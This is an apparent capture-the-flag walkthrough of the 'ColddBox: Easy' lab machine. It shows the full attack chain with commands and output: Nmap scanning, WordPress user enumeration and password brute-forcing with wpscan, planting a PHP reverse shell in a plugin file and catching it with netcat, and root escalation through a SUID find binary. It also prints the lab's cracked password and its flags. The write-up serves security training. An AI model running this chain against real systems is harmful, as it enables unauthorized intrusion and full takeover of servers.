

# ColddBox: Easy

First, we conduct an Nmap scan:

```
nmap -sS -sV -Pn -p- 10.112.142.26
```

```
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap -sS -sV -Pn -p- 10.112.142.26                                     
Starting Nmap 7.95 ( [https://nmap.org](https://nmap.org) ) at 2026-05-18 06:23 EDT
Nmap scan report for 10.112.142.26
Host is up (0.027s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
4512/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at [https://nmap.org/submit/](https://nmap.org/submit/) .
Nmap done: 1 IP address (1 host up) scanned in 25.98 seconds
```

Once we navigate to the webpage, we can see that it is hosted using WordPress. First, we can enumerate the WordPress users:

```
wpscan --url [http://10.112.142.26](http://10.112.142.26) --enumerate u
```

```
...

[i] User(s) Identified:

[+] the cold in person
 | Found By: Rss Generator (Passive Detection)

[+] philip
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] c0ldd
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] hugo
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

 ...
```

As we can see, we have successfully found several users. Now, we can try to launch a dictionary attack against these usernames (specifically the `c0ldd` username):

```
wpscan --url [http://10.112.142.26](http://10.112.142.26) --usernames c0ldd --passwords ../rockyou.txt
```

```
...

[+] Performing password attack on Wp Login against 1 user/s
[SUCCESS] - c0ldd / 9876543210                                                                                                                                                 
Trying c0ldd / photos Time: 00:00:19 <                                                                              > (1225 / 14345617)  0.00%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: c0ldd, Password: 9876543210

...
```

We found valid credentials, so we can now log in to the WordPress dashboard. We can see that we have access to the file editor, which allows us to paste a PHP reverse shell into `akismet/class.akismet.php` and access the file via the `wp-content/plugins/akismet/class.akismet.php` path.



```
┌──(kali㉿kali)-[~/Desktop]
└─$ nc -nvlp 1234
listening on [any] 1234 ...
connect to [192.168.204.155] from (UNKNOWN) [10.112.142.26] 33596
Linux ColddBox-Easy 4.4.0-186-generic #216-Ubuntu SMP Wed Jul 1 05:34:05 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 13:40:35 up  1:19,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ hostname
ColddBox-Easy
$ 
```

Next, we upgrade our shell:

```
python3 -c "import pty;pty.spawn('/bin/bash')"
```

We can look for binaries with the SUID flag set:

```
find / -perm -u=s -type f 2>/dev/null
```

```
www-data@ColddBox-Easy:/$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/bin/su
/bin/ping6
/bin/ping
/bin/fusermount
/bin/umount
/bin/mount
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/pkexec
/usr/bin/find
/usr/bin/sudo
/usr/bin/newgidmap
/usr/bin/newgrp
/usr/bin/at
/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/passwd
/usr/lib/openssh/ssh-keysign
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

We can see that the `find` binary is listed in the output. We head to https://gtfobins.org/gtfobins/find/ and copy the command that grants a root shell:

```
find . -exec /bin/sh -p \; -quit
```

```
www-data@ColddBox-Easy:/$ find . -exec /bin/sh -p \; -quit
find . -exec /bin/sh -p \; -quit
# whoami
whoami
root
# 
```

Now we can read the `user.txt` and `root.txt` flags:

```
# cd /home/c0ldd              
cd /home/c0ldd
# ls
ls
user.txt
# cat user.txt
cat user.txt
RmVsaWNpZGFkZXMsIHByaW1lciBuaXZlbCBjb25zZWd1aWRvIQ==
# cd /root
cd /root
# ls
ls
root.txt
# cat root.txt
cat root.txt
wqFGZWxpY2lkYWRlcywgbcOhcXVpbmEgY29tcGxldGFkYSE=
# 
```